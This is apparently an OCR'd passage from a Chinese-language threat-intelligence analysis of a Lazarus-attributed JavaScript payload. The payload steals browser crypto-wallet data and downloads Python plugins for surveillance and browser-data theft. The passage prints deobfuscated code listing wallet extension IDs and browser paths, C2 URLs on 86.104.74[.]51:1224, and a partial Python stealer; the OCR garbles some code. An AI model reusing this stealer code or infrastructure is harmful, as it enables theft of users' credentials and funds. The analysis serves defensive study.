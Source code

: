 ### 3.载荷功能分析  

对上述提到的TokenHash.js进行去混淆，解混淆后可以看到其代码首先定义了多个浏览器加密钱包扩展程序ID。  

const _0x4530a4=["Local/BraveSoftware/Brave-Browser","BraveSoftware/ Brave-Browser","BraveSoftware/Brave-Browser"];   
const _ox1edb6a =["Local/Google/Chrome","Google/Chrome",“google-chrome"]; const _0x490b84 =["Roaming/0pera Software/0pera Stable","com.operasoftware. Opera","opera"];   
const _ox21c9c3=["nkbihfbeogaeaoehlefnkodbefgpgknn",   
"ejbalbakoplchlghecdalmeeeajnimhm","fhbohimaelbohpjbbldcngcnapndodjp", "ibnejdfjmmkpcnlpebklmnkoeoihofec","bfnaelmomeimhlpmgjnjophhpkkoljpa", "aeachknmefphepccionboohckonoeemg","hifafgmccdpekplomjjkcfgodnhcellj" "jblndlipeogpafnldhgmapagcccfchpi","acmacodkjbdgmoleebolmdjonilkdbch" "dlcobpjiigpikoobohmabehhmhfoodbb","mcohilncbfahbmgdjkbpemcciiolgcge" "agoakfejjabomempkjlepdflaleeobhb","omaabbefbmiijedngplfjmnooppbclkk" "aholpfdialjgjfhomihkjbmgjidlcdno","nphplpgoakhhjchkkhmiggakijnkhfnd", "penjlddjkjgpnkllboccdgccekpkcbin","lgmpcpglpngdoalbgeoldeajfclnhafa", "fldfpgipfncgndfolcbkdeeknbbbnhcc","bhhhlbepdkbapadjdnnojkbgioiodbic", 'gjnckgkfmgmibbkoficdidcljeaaaheg","afbcbjpbpfadlkmhmclhkeeodmamcflc"];  

接着根据Brave、chrome和opera浏览器的默认存储路径，窃取其钱包数据并回传到[http://86.104.74[.]51:1224/uploads。  

![](https://cdn-mineru.openxlab.org.cn/extract/7f4f35cd-230f-422e-ae5b-40905df4ab4f/ca20d0c33d8678794475429b6a9d2544b5a0a094daa3281dc949b39199eb50a6.jpg)  

然后从地址http://86.104.74[.]51:1224/pdown下载python安装包，便于后续代码执行，以及从地址[http://86.104.74[.]51:1224/client/7/702下载后续载荷并保存为%userprofile%\.sysinfo执行。  

![](https://cdn-mineru.openxlab.org.cn/extract/7f4f35cd-230f-422e-ae5b-40905df4ab4f/4876a5cffcdc9b5acc7b3dc4476f8dde1915599fab8fb9d13c40f7b075b5d114.jpg)  

下载的.sysinfo是一个python脚本，经过49层解码再解压缩得到原始代码如下所示。  

![](https://cdn-mineru.openxlab.org.cn/extract/7f4f35cd-230f-422e-ae5b-40905df4ab4f/ad831daa2f1f1700f634b0f217562b50a446dd684f08d294cd6201ddf41e3758.jpg)  

其功能为下载器，从86.104.74.51地址下载插件用于后续攻击活动，后续插件的功能和我们之前对Lazarus组织该类型载荷的追踪中对比发现并无变化，故在次只对其进行简要分析说明。  

#### 插件1:  

下载地　址　：http://86.104.74[.]51:1224/payload/7/702　，保存为%userprofile%\.n2\pay，功能为主机监控，文件窃取，执行shell指令并设置anydesk等。  

![](https://cdn-mineru.openxlab.org.cn/extract/7f4f35cd-230f-422e-ae5b-40905df4ab4f/9c16c7b4fb88dec49b351f58040beac04f1cedc7f97e0d842c214ac1d81a378b.jpg)  

#### 插件2:  

下载地　址　：http://86.104.74[.]51:1224/bow/7/702，保存为%userprofile%\.n2\bow， 功能为窃取Chrome, Brave, Opera, Yandex, MsEdge数据。  

host1='86.104.74.51   
host2=f'http://{host1}:1224   
class BrowserVersion:   
def_str_(A):returnA.base_name   
def_eq_(A,_o):return A.base_name==   
class Chrome(BrowserVersion):base_name =“chrome";v_w =["chrome",“chrome dev", "chrome beta",“chrome canary"];v_1 = ["google-chrome",“google-chrome-unstable",“google-chrome-beta"];v_m =["chrome","chrome dev",“chrome beta","chrome canary"]   
class Brave(BrowserVersion）:base_name ="brave";vw = ["Brave-Browser",“Brave-Browser-Beta",“Brave-Browser-Nightly”];v_1 =["Brave-Browser","Brave-Browser-Beta","Brave-Browser-Nightly"];v_m =["Brave-Browser","Brave-Browser-Beta", "Brave-Browser-Nightly"]   
class Opera(BrowserVersion):base_name =“opera";v_w =["Opera Stable",“Opera Next",“Opera Developer"];v_1 =["opera”, "opera-beta", "opera-developer"];v_m = ["com.operasoftware.Opera", "com.operasoftware.OperaNext", "com.operasoftware. OperaDeveloper"]   
class Yandex(BrowserVersion):base_name =“yandex";v_w =["YandexBrowser"];v_1 =["YandexBrowser"];v_m =["YandexBrowser"] class MsEdge(BrowserVersion):base_name =“msedge";v_W =["Edge"];v_1 =[];v_m=[]  
